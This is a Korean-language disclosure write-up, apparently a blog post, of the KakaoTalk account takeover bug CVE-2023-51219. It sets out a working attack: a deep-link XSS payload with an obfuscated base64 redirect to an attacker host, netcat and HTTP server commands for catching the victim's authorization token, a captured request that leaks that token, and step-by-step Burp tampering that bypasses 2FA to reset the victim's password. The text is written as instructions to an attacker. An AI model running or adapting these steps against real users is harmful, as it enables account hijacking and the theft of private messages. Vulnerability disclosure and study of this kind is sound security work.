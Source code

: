 ```yaml
---
title: "카카오톡 보안 취약점"
createdDate: 1719418649
tldr: "CVE-2023-51219로 지정된 계정을 가로챌 수 있는 보안 취약점"
---
```


## 위험한 링크 준비하기

이 링크를 파일에 저장하고
```js
<script>
location.href = decodeURIComponent("kakaotalk%3A%2F%2Fbuy%2Fauth%2F0%2FcleanFrontRedirect%3FreturnUrl%3Dhttps%3A%2F%2Fm.shoppinghow.kakao.com%2Fm%2Fproduct%2FQ24620753380%2Fq%3A%22%3E%3Cimg%20src%3Dx%20onerror%3D%22document.location%3Datob%28%27aHR0cDovLzE5Mi4xNjguMTc4LjIwOjU1NTUv%27%29%3B%22%3E");
</script>
```

HTTP Server를 연 뒤
```sh
python3 -m http.server 8888
```

netcat을 여세요.
```sh
nc -l 5555
```

## 위험한 링크 보내기

위험한 링크를 보낸 후, 상대가 클릭할 때까지 기다리세요.\
만약 클릭했다면, 이렇게 netcat에 이렇게 보입니다.\
**authorization 헤더가 포함됨**
```
GET /foo.html HTTP/1.1
Host: 192.168.178.20:5555
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Linux; Android 10; M2004J19C Build/QP1A.190711.020; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/119.0.6045.66 Mobile Safari/537.36;KAKAOTALK 2610420;KAKAOTALK 10.4.2
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
authorization: 64f03846070b4a9ea8d8798ce14220ce00000017017793161400011gzCIqV_7kN-deea3b5dc9cddb9d8345d95438207fc0981c2de80188082d9f6a8849db8ea92e
os_name: Android
kakao-buy-version: 1.0
os_version: 10.4.2
X-Requested-With: com.kakao.talk
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```

## 2FA를 우회해서 비밀번호 변경하기 (Burp와 함께) (상대가 카카오메일일 경우만 가능)

상대의 카카오 계정을 가졌으면, 다음으로 할 일은 비밀번호 초기화입니다.\
추가 정보는 상대의 이메일, 이름(nickname), 전화번호밖에 필요없습니다.\
상대가 카카오메일을 사용할 시 추가 정보는 [이 방법](https://stulle123.github.io/posts/kakaotalk-account-takeover/#deep-link-to-kakao-mail-account-takeover)으로 얻을 수 있습니다.

2FA를 우회해서 비밀번호를 변경하는 것은 복잡합니다. 그러나, [Burp 브라우저](https://portswigger.net/burp/documentation/desktop/tools/burps-browser)와 함께 몇개의 요청을 수정하고, 가로채면 간단해집니다.

- Burp 브라우저로 [비밀번호 초기화](https://accounts.kakao.com/weblogin/find_password?lang=en&continue=%2Flogin%3Fcontinue%3Dhttps%253A%252F%252Faccounts.kakao.com%252Fweblogin%252Faccount%252Finfo) 링크를 들어가세요.
- 상대의 이메일을 이용해 비밀번호 초기화를 하세요. (Next 버튼을 누르기 전에 Intercept를 활성화하세요.)
- Burp 안에서, /kakao_accounts/check_verify_type_for_find_password.json로 POST 요청을 보낼 때까지 모든 요청을 수락하세요. 그 요청을 우클릭하고, Intercept > Response를 클릭하세요.
- 그 요청 안에서 verify_types를 0으로 바꾸세요. (적용 시 전화번호 대신 이메일 요청 사용), 예시:
```json
{
  "status": 0,
  "verify_types": [
    0
  ],
  "suspended": false,
  "dormant": false,
  "kakaotalk": false,
  "expired": false,
  "created_at": 1700754321,
  "two_step_verification": false,
  "is_fill_in_email": false,
  "account_type": 0,
  "display_id": null
}
```
- Intercept를 비활성화하세요. 이메일 사용을 클릭하세요.
- 상대의 이름과 이메일을 입력하고, Verify를 누르세요.
- [상대의 이메일](https://stulle123.github.io/posts/kakaotalk-account-takeover/#deep-link-to-kakao-mail-account-takeover)에 들어가세요. 만약 만료되었다고 나온다면, 브라우저 캐시를 지우세요.
- 인증 코드를 입력 후, 다음으로 넘어가세요.
- 추가 인증 페이지에선, 다시 Intercept를 활성화하세요. 아무거나 입력 후 confirm을 누르세요. Burp에 들어가서 /kakao_accounts/check_phone_number.json로 POST 요청이 된게 보인다면, 요청 body 안에 있는 iso_code와 phone_number (국가 코드 없이) 파라미터(parameters)를 수정하세요. 다시 요청을 보내고, Intercept를 비활성화하세요.
- 비밀번호 초기화가 가능해졌습니다. 😎

## 시사점

1. 유명한 채팅 앱의 유저 메시지를 훔치기 위해 복잡한 과정을 거칠 필요가 없습니다.
2. 만약 개발자가 몇개의 간단한 실수를 했을 경우엔, 안드로이드의 강력한 보안과 메시지 암호화는 쓸모가 없어집니다.
3. 아시아 채팅 앱은 아직도 보안을 무시합니다.
4. 이 포스트가 보안의 관심도를 올리는 계기가 되었으면 좋겠습니다.

## 책임 있는 공개
2023년 12월에 제보했으나, 한국인만 돈을 받을 수 있어서 아무 보상도 받지 못했습니다. 🤯\
임시 해결을 하기 위해, 카카오는 https://buy.kakao.com 를 끄고 /auth/0/cleanFrontRedirect?returnUrl= 리다이렉트를 지웠습니다.\
이 보안 취약점은 나중에 해결되었습니다. (5월 31일 원문이 공개되었으므로, 5월 사이에 패치되었을 것이라 생각합니다.)\
카카오는 보안 취약점을 CVE 데이터베이스에 공개하는 것을 거부했습니다.
